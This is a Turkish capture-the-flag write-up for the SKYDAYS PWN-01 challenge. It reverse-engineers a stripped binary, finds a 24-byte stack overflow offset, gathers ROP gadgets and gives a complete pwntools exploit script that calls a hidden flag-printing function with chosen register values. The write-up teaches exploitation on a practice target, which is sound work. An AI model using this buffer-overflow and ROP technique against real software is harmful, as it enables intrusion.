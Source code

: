 # SKYDAYS CTF PWN-01

# Giriş

 Bu yazı YTÜ SKYLAB kulübünün düzenlediği SKYDAYS etkinliğindeki CTF yarışmasındaki sorunun çözümünü anlatmaktadır. Sorunun tek çözümü bu değildir, başka çözümler olabilmektedir.

# Soru

 Bize “chal” isimli bir dosya verilmiş, bu dosyayı açtığımızda karşımıza şöyle bir ekran çıkmakta:

![0](assets/0.png)

 Program bizden bir girdi alıyor ve aldığı girdiği ekrana yazdırıyor. Bu durumda bizden sorunun içerdiği bayrağı bulmamız isteniyor.

# Çözüm

 Bize verilen dosyanın özelliklerine bakalım:

![1](assets/1.png)

![2](assets/2.png)

 Dosyanın 64-bit mimaride, ‘little endian’ biçimde, dinamik olarak bağlanmış ve ‘stripped’ olduğunu; koruma olarak ise ‘NX’ ve ‘Partial RELRO’ içerdiğini görüyoruz.

 Dosyamızda bayrağın nerede olduğunu öğrenmek için dosyayı ‘ghidra’ ile inceleyelim:

![3](assets/3.png)

 Dosyamız ‘stripped’ olduğundan fonksiyonların isimlerine ulaşamıyoruz. Bundan dolayı programın ne yaptığını anlamak için “entry” fonksiyonundan başlayarak inceleyelim:

![4](assets/4.png)

 “entry” fonksiyonu bizi ‘FUN_0040128e’ fonksiyonuna yani “main” fonksiyonuna gönderiyor. “main” fonksiyonuna bakalım:

![5](assets/5.png)

 “main” fonksiyonu ise benzer bir şekilde ‘FUN_00401231’ fonksiyonunu çağırıyor. ‘FUN_00401231’ fonksiyonuna bakalım:

![6](assets/6.png)

 Programı çalıştırdığımızda karşımıza çıkan ekranın kodunu görüyoruz. Bu kod başka bir fonksiyonu çağırmıyor fakat bayrağı bize verecek fonksiyonu bulmamız gerek. Bunun için diğer fonksiyonlara bakalım:

![7](assets/7.png)

 Karşımıza böyle ilginç bir fonksiyon çıkıyor. Bu fonksiyon üç adet parametre alıyor ve bu parametreler sırasıyla ‘0xdeadbeef’, ‘0xc0debabe’ ve ‘0xcacadada’ değerlerine eşit olursa ‘flag.txt’ dosyasının içeriğini ekrana yazdırıyor. Eğer parametreler bu değerlere eşit değilse ekrana “Nope, that’s not how you’re supposed to solve this challenge :D” yazdırıyor.

 ‘flag.txt’ dosyası tam da bizim erişmek istediğimiz dosya. Bunun için bir şekilde bu fonksiyona erişip parametrelere doğru değerleri yazmamız gerekiyor. Bunu yapmak için de ‘FUN_00401231’ fonksiyonundaki ‘buffer’ı kullanabiliriz yani bir ‘buffer overflow’ atağı yapabiliriz.

 Öncelikle programımızı ‘debugger’ yardımıyla çalıştırıp ‘rip register’ının ‘offset’ini bulmamız gerek. Bunu şu şekilde yapabiliriz:

![8](assets/8.png)

 Burada ‘rsp register’ına dolan en soldaki değerlerden sonraki değerler ‘rip register’ına ulaşacak değerlerdir. Bundan dolayı ‘offset’imizi öğrenmek için ‘daaaaaaa’ değerinin ‘pattern’imizde kaçıncı sırada geldiğini bulmamız gerekir:

![9](assets/9.png)

 Böylelikle ‘offset’imizin 24 olduğunu bulmuş olduk, bu ileride işimize yarayacak.

 Bayrağı yazdıracak fonksiyona dönmek için bu fonksiyonun adresine ihtiyacımız var. Sadece dönmemiz de yetmeyecek, parametreleri de uygun değerlerle eşleştirmemiz gerekiyor. Bunun için önce parametreleri oluşturmalı daha sonra fonksiyonu çağırmalıyız. Parametrelerin hangi ‘register’lar ile kontrol edildiğini öğrenmek için ‘ghidra’da açtığımız fonksiyonun ‘assembly’ kısmına bakalım:

![10](assets/10.png)

 Fonksiyonun adresini ‘0x401176’ olarak bulmuş olduk. Parametreleri program sırasıyla ‘rdi’, ‘rsi’, ‘rdx’ ‘register’larındaki değerlerle karşılaştırıyor yani bu ‘register’lara uygun değerleri yazmamız gerekecek. Bunu yapmak için ise ‘pop’ ‘gadget’ına ihtiyacımız var. ‘Ropper’ aletini kullanarak bu ‘gadget’lara ulaşabiliriz:

![11](assets/11.png)

 Bize gereken ‘gadget’ları bulmuş olduk. Bunları not edelim. İhtiyacımız olan bilgileri elde ettiğimize göre artık ‘script’imizi yazabiliriz:

```python
from pwn import *

#terminalde script'i GDB,REMOTE,LOCAL modlarında çalıştırmak için:
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

#binary dosyasının mimarisini ayarlamak için:
exe = './chal' #dosya adı
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug' #olan biteni anlamak için

#####################################
# exploit'i buradan sonra yazacağız #
#####################################

#BOF için gdb'den öğrendiğimiz offsetimizi buraya yazıyoruz:
offset = 24

#ropper'dan öğrendiğimiz gadget adreslerini buraya yazıyoruz:
pop_rdi = 0x401289
pop_rdx = 0x401287
pop_rsi = 0x401285

#programı başlatıyoruz:
io = start()

#payload'ı oluşturuyoruz:
payload = flat({
    offset: [
        pop_rdi,  # Pop the next value to RDI
        0xdeadbeefdeadbeef,
        pop_rsi,  # Pop the next value to RSI (and junk into R15)
        0xc0debabec0debabe,
        pop_rdx,
        0xcacadadacacadada,
        # With params in correct registers, call hacked function
        0x401176
    ]
})

#payload'ımızı yolluyoruz:
io.sendlineafter(b'name:', payload)

#flag'i okuyabilmek için interaktif moda geçiyoruz:
io.interactive()
```

 ‘script’imizi çalıştırdığımızda bayrağımızı elde ediyoruz:

![12](assets/12.png)

---

written by: KOTAMAN
